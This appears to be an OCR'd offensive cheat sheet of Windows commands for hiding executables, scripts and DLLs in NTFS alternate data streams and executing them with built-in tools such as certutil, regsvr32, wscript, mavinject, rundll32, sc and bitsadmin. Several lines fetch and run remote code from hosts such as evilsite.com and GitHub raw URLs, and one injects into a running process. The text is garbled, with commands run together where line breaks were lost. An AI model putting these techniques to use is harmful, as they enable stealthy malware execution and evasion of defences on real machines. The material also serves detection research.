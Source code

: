 ```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exefindstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.execertutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:tttmakecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cabprint /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exereg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.regregedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKeyexpand \\webdav\folder\file.bat c:\ADS\file.txt:file.batesentutl.exe /y C:\ADS\autoruns.exe /d c:\ADS\file.txt:autoruns.exe /opowershell -command " & {(Get-Content C:\ADS\file.exe -Raw | Set-Content C:\ADS\file.txt -Stream file.exe)}"curl file://c:/temp/autoruns.exe --output c:\temp\textfile1.txt:auto.execmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://evilsite.com/RegSvr32.sct   ^scrobj.dll > fakefile.doc:reg32.bat​dir /R ​expand c:\ads\file.txt:test.exe c:\temp\evil.exeesentutl.exe /Y C:\temp\file.txt:test.exe /d c:\temp\evil.exe /omore < c:\ads\file.txt:test.exe​​* WMICwmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'​* Rundll32rundll32 "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:ADSDLL.dll",DllMainrundll32.exe advpack.dll,RegisterOCX not_a_dll.txt:test.dllrundll32.exe ieadvpack.dll,RegisterOCX not_a_dll.txt:test.dll​* Cscriptcscript "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Script.vbs"​* Wscriptwscript c:\ads\file.txt:script.vbsecho GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js​* Forfilesforfiles /p c:\windows\system32 /m notepad.exe /c "c:\temp\shellloader.dll:bginfo.exe"​* Mavinject.exec:\windows\SysWOW64\notepad.exetasklist | findstr notepadnotepad.exe                   4172 31C5CE94259D4006           2     18,476 Ktype c:\temp\AtomicTest.dll > "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"c:\windows\WinSxS\wow64_microsoft-windows-appmanagement-appvwow_31bf3856ad364e35_10.0.16299.15_none_e07aa28c97ebfa48\mavinject.exe 4172 /INJECTRUNNING "c:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:Atomic.dll"​* MSHTAmshta "C:\Program Files (x86)\TeamViewer\TeamViewer13_Logfile.log:helloworld.hta"(Does not work on Windows 10 1903 and newer)​* Control.execontrol.exe c:\windows\tasks\zzz:notepad_reflective_x64.dllhttps://twitter.com/bohops/status/954466315913310209​* Create service and runsc create evilservice binPath= "\"c:\ADS\file.txt:cmd.exe\" /c echo works > \"c:\ADS\works.txt\"" DisplayName= "evilservice" start= autosc start evilservicehttps://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/​* Powershell.exepowershell -ep bypass - < c:\temp:ttt​* Powershell.exepowershell -command " & {(Get-Content C:\ADS\1.txt -Stream file.exe -Raw | Set-Content c:\ADS\file.exe) | start-process c:\ADS\file.exe}"​* Powershell.exeInvoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}​* Regedit.exeregedit c:\ads\file.txt:regfile.reg​* Bitsadmin.exebitsadmin /create myfilebitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exebitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULLbitsadmin /RESUME myfile​* AppVLP.exeAppVLP.exe c:\windows\tracing\test.txt:ha.exe​* Cmd.execmd.exe - < fakefile.doc:reg32.bathttps://twitter.com/yeyint_mth/status/1143824979139579904​* Ftp.exeftp -s:fakefile.txt:aaaa.txthttps://github.com/sailay1996/misc-bin/blob/master/ads.md​* ieframe.dll , shdocvw.dll (ads)echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txtrundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txthttps://github.com/sailay1996/misc-bin/blob/master/ads.md​* bash.exeecho calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.shbash.exe -c $(fakefile.txt:payload.sh)https://github.com/sailay1996/misc-bin/blob/master/ads.md​* Regsvr32type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADSregsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```
